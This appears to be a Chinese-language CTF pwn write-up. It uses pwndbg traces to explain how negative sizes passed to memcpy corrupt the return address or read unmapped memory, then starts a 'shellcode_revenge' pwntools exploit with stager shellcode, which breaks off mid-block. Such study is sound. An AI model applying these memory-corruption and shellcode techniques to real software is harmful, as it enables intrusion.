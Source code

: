 先说`-1`为什么不行吧，运行后发现它出错是因为`RIP`被置为0了（无效的地址）。 进gdb调试一下，发现问题出在调用`memcpy()`函数之后栈顶返回地址被置为0了，因此在执行ret时会直接报段错误。 问题指令：

```
 ► 0x4482b7 <__memmove_avx_unaligned_erms+567>    vmovdqa ymmword ptr [rcx + 0x60], ymm1
```

在执行这条指令之前，rsp为：

```
RSP 0x7ffdb7f2e018 —▸ 0x401cae (func+308) ◂— jmp 0x401cbf
```

执行之后：

```
RSP 0x7ffdb7f2e018 ◂— 0
```

这里是因为`RCX`寄存器中的地址太靠近栈顶了。

```
pwndbg> p $rcx + 0x60
$1 = 140732357202144
pwndbg> p $rsp - $1
$2 = (void *) 0x18
```

注意 ： `ymmword` 大小为32字节，因此显然这里往高地址复制的时候rsp指向的返回地址被覆盖率 RCX在执行到这步之前进行了多次改变，受到输入数值大小的影响。

### `-2147483528`为什么不行

至于`-2147483528`为什么不行，则是另一个原因：

```
► 0x44828c <__memmove_avx_unaligned_erms+524>    vmovdqu ymm8, ymmword ptr [rsi + rdx - 0x20]
```

如你先前所说，程序卡在这里。

```
pwndbg> p/d $rdx
$4 = -2147483528
```

`rdx`中存有你输入`的size`。

```
pwndbg> p/x $rsi + $rdx - 0x20
$2 = 0xffffffff804e5bb8
pwndbg> x/x $2
0xffffffff804e5bb8:     Cannot access memory at address 0xffffffff804e5bb8
```

从这个结果来看程序显然无法访问到 `[rsi + rdx - 0x20]`,那么试图从这里加载数据自然会导致错误。

总的来讲，其实对`memcpy()`传入负值本就会导致非预期的行为，其内部的较复杂指令实现会导致不能很好掌控输入负值后的结果。

## shellcode_revenge

```python
from pwn import *

p = process('./pwn')
context.arch = 'amd64'
context.log_level = 'debug'
s = shellcraft
gdb.attach(p)
pause()
shellcode = '''
mov rdx, 0x2000
add rsi, 0xd
syscall
```